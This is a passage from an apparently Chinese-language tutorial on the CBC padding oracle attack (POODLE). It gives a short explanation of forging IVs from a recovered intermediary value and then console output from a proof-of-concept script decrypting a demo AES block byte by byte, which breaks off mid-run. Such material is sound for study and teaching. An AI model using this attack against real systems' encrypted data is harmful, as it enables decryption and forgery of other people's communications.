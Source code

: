 ![](images/cbc.png)

一旦我们通过暴力破解得到中间值Intermediary Value之后，IV便可以用来生成我们想要的任意值。新的IV可以被放在前一个示例的前面，这样便可以得到一个符合我们要求的，包含两个数据块的密文了。这个过程可以不断重复，这样便能生成任意长度的数据了。

__POODLE test 1__  

Result of POODLE_Demo.py

	C:\Python27\python.exe C:/MyPath/Poodle_Demo.py
	=== Padding Oracle Attack POC(CBC-MODE) ===
	=== by axis ===
	=== axis@ph4nt0m.org ===
	=== 2011.9 ===
	=== Generate Target Ciphertext ===
	[+] plaintext is: aaaaaaaaaaaaX
	[+] iv is: \x31\x32\x33\x34\x35\x36\x37\x38\x31\x32\x33\x34\x35\x36\x37\x38
	[+] ciphertext is: \x29\x2f\x71\x22\x52\x46\x41\xff\x18\x15\xe1\x18\x1c\x4a\xab\x1e
	=== Start Padding Oracle Decrypt ===
	[+] Choosing Cipher: AES
	[*] Now try to decrypt block 0
	[*] Block 0's ciphertext is: \x29\x2f\x71\x22\x52\x46\x41\xff\x18\x15\xe1\x18\x1c\x4a\xab\x1e
	
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x3a
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x53\x52\x55\x6d\x35\x34\x01
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x36\x39
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x53\x52\x55\x6d\x35\x02\x02
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x36\x37\x38
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x53\x52\x55\x6d\x03\x03\x03
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x69\x31\x30\x3f
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x53\x52\x55\x04\x04\x04\x04
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x50\x68\x30\x31\x3e
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x53\x52\x05\x05\x05\x05\x05
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x54\x53\x6b\x33\x32\x3d
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x53\x06\x06\x06\x06\x06\x06
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x00\x54\x55\x52\x6a\x32\x33\x3c
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x50\x07\x07\x07\x07\x07\x07\x07
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x00\x58\x5b\x5a\x5d\x65\x3d\x3c\x33
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x59\x08\x08\x08\x08\x08\x08\x08\x08
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x00\x50\x59\x5a\x5b\x5c\x64\x3c\x3d\x32
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x56\x09\x09\x09\x09\x09\x09\x09\x09\x09
	[*] Try IV: \x00\x00\x00\x00\x00\x00\x5c\x53\x5a\x59\x58\x5f\x67\x3f\x3e\x31
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x57\x0a\x0a\x0a\x0a\x0a\x0a\x0a\x0a\x0a\x0a
	[*] Try IV: \x00\x00\x00\x00\x00\x5c\x5d\x52\x5b\x58\x59\x5e\x66\x3e\x3f\x30
	[*] Found padding oracle: \x50\x53\x52\x55\x54\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b
	[*] Try IV: \x00\x00\x00\x00\x58\x5b\x5a\x55\x5c\x5f\x5e\x59\x61\x39\x38\x37
	[*] Found padding oracle: \x50\x53\x52\x55\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c
	[*] Try IV: \x00\x00\x00\x58\x59\x5a\x5b\x54\x5d\x5e\x5f\x58\x60\x38\x39\x36